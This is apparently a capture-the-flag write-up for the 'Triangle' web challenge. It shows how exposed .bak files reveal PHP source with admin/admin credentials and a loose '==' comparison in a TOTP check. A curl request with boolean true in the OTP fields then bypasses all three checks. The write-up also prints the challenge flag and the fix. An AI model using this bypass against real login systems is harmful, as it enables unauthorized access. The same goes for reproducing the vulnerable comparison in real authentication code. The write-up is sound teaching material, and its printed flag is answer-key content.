

# Triangle - CTF Writeup

## Challenge Description

The system guards its secrets behind a username, a password, and three sequential verification steps. Only those who truly understand how the application works will pass all three.

**Target:** http://15.206.47.5:8080

---

## Step 1: Initial Reconnaissance

Visiting the home page reveals a login form with:
- Username field
- Password field  
- Three OTP (One-Time Password) fields

**Key Observation:** The HTML source contains a critical comment:
```html
<!-- Dev team 2: TODO: Implement google2fa.php for auth and don't forget to clean up the bak files post debugging before release  -->
```

This hints at backup files (`.bak`) that may contain source code.

---

## Step 2: Discovering Backup Files

Following the hint, we check for backup files:
- `http://15.206.47.5:8080/login.php.bak`
- `http://15.206.47.5:8080/index.php.bak`
- `http://15.206.47.5:8080/google2fa.php.bak`

All three backup files are accessible, revealing the application's source code.

---

## Step 3: Analyzing the Source Code

### login.php.bak Analysis

```php
$USER_DB = [
    "admin" => [
        "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
        "key1" => Google2FA::generate_secret_key(),
        "key2" => Google2FA::generate_secret_key(),
        "key3" => Google2FA::generate_secret_key()
    ]
];
```

**Findings:**
- Username: `admin`
- Password: `admin`
- Three OTP secret keys are generated per request
- **Critical Issue**: `$USER_DB` is reinitialized on every request, meaning secret keys change each time

This makes it impossible to predict valid OTPs through normal means.

### google2fa.php.bak Analysis

The critical vulnerability is in the `verify_key()` function:

```php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    $timeStamp = self::get_timestamp();
    if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;
    $binarySeed = self::base32_decode($b32seed);
    
    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)  // ⚠️ VULNERABILITY
            return true;
    
    return false;
}
```

**The Vulnerability:**
- Line 93 uses **loose comparison** (`==`) instead of strict comparison (`===`)
- The `oath_hotp()` function returns a string (e.g., `"123456"`)
- PHP's type juggling allows non-empty strings to equal boolean `true` when using `==`

---

## Step 4: Understanding the Exploit

### Why the Exploit Works

In PHP, loose comparison (`==`) performs type juggling:

```php
"123456" == true   // Evaluates to true (non-empty string == boolean true)
"123456" == "true" // Evaluates to false (string comparison)
```

**The Logic:**
1. `oath_hotp()` generates a 6-digit OTP string like `"123456"`
2. If we send boolean `true` as the OTP value, PHP compares: `"123456" == true`
3. Due to type juggling, this evaluates to `true`, bypassing the OTP validation
4. This works for all three OTP fields

---

## Step 5: Exploiting the Vulnerability

Since the form sends JSON data to `/login.php`, we can send boolean `true` values for the OTP fields.

**Exploit Payload:**
```json
{
    "username": "admin",
    "password": "admin",
    "otp1": true,
    "otp2": true,
    "otp3": true
}
```

### Exploitation Execution Method Used

**Method 1: Using curl**
```bash
curl -X POST http://15.206.47.5:8080/login.php \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}'
```
Using `Content-Type: application/json` to ensure proper JSON parsing.

**Method 2: Using Burp Repeater**

---

## Step 6: Obtaining the Flag

Sending the exploit payload returns:

```json
{
    "message": "Flag: ClOuDsEk_ReSeArCH_tEaM_CTF_2025{474a30a63ef1f14e252dc0922f811b16}",
    "data": null
}
```

**Flag:** `ClOuDsEk_ReSeArCH_tEaM_CTF_2025{474a30a63ef1f14e252dc0922f811b16}`

---

## Technical Explanation: Legitimacy of the Exploit

### PHP Type Juggling Behavior

PHP's loose comparison operator (`==`) performs automatic type conversion:

| Comparison          | Result  | Explanation                          |
| ------------------- | ------- | ------------------------------------ |
| `"123456" == true`  | `true`  | Non-empty string converts to `true`  |
| `"123456" === true` | `false` | Strict comparison checks type        |
| `"0" == false`      | `true`  | Empty/zero values convert to `false` |
| `"0" === false`     | `false` | Strict comparison prevents this      |

### Why the Exploit is Valid

1. **The vulnerability exists**: The code uses `==` instead of `===` in security-critical authentication logic
2. **The exploit is intentional**: Sending boolean `true` exploits PHP's documented type juggling behavior
3. **The impact is real**: Complete authentication bypass without valid credentials
4. **The fix is clear**: Change `==` to `===` on line 93 of `google2fa.php`

### Proof of Concept

The exploit works because:
- `oath_hotp($binarySeed, $ts)` returns a string like `"123456"`
- When `$key = true` (boolean), PHP evaluates: `"123456" == true`
- PHP converts the non-empty string to boolean `true`, making the comparison succeed
- The function returns `true`, bypassing all three OTP checks

---

## Solution Script

See [solve.py](./Resources/solve.py) for an automated solution script.
